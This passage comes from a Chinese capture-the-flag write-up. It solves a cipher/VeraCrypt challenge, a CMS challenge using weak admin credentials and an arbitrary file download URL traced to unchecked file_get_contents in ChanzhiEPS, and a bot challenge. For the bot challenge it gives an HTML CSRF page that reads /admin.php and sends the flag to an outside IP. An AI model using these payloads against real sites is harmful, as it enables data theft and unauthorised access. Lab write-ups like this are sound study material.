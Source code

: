 ![](https://butter.lumosary.workers.dev/images/archive/c67b07d5-8cae-46d2-9e85-51c92780b759/1626273942571.9ceaad526a54bcb6dbb79b32716051260df7379f.png)

解出三分密码后可以得到如下信息。

```plain text
EBCCAFDDCE
```

使用上述信息作为密码挂载 Vera Crypt 隐藏磁盘可得 flag 文件。

```flag
flag{85ec0e23-ebbe-4fa7-9c8c-e8b743d0d85c}
```

### easycms

> 后台密码5位弱口令

根据 hint 可使用 `admin/12345` 作为账号密码登录 `/admin.php` 的管理后台。后台的自定义主题处存在一个任意文件下载，因此可以直接构造出如下链接下载到 flag。

```plain text
http://b3a42f69-75d9-4871-a822-4f748b7879fe.node4.buuoj.cn/admin.php?m=ui&f=downloadtheme&theme=L2ZsYWc=
```

`L2ZsYWc=` 即 `/flag` Base64 Encode 一次的内容。

```flag
flag{56d0914c-08c5-4af6-92b2-e31d2f947d5d}
```

#### 分析

根据后台版本号下载一份 V7.7 的 CMS 源码。找到 `chanzhieps/system/module/ui/control.php` 这个文件下的 `downloadtheme` 方法。

![](https://api.lemonprefect.cn/image/hdslb/archive/c67b07d5-8cae-46d2-9e85-51c92780b759/1626503466852/7c4c2c528234e46e9e22884bdcd7e4ee3d070e6e.png)

可以很直接地看到这里直接采用 `file_get_contents` 将文件读入后推给了下载流而没做任何校验，因此达成了任意文件下载。

### CheckBot

> 让bot访问/admin.php才有flag，但是怎么带出来呢

主页面可以找到如下提示，结合题目的 hint 可以实现一个 CSRF 来访问 admin.php。纯粹使用 XMLHttpRequest 会造成一次跨域请求从而无法成功。因此采用一个 iframe 来代替。构造如下页面，放到自己的服务器上，然后将链接提交给 Bot。

```html
<html>
    <body>
        <iframe id="flag" src="http://127.0.0.1/admin.php"></iframe>
        <script>
            window.onload = function(){
                /* Prepare flag */
                let flag = document.getElementById("flag").contentWindow.document.getElementById("flag").innerHTML;
                /* Export flag */
                var exportFlag = new XMLHttpRequest();
                exportFlag.open('get', 'http://8.136.8.210:3255/flagis-' + window.btoa(flag));
                exportFlag.send();
            }
        </script>
    </body>
</html>
```
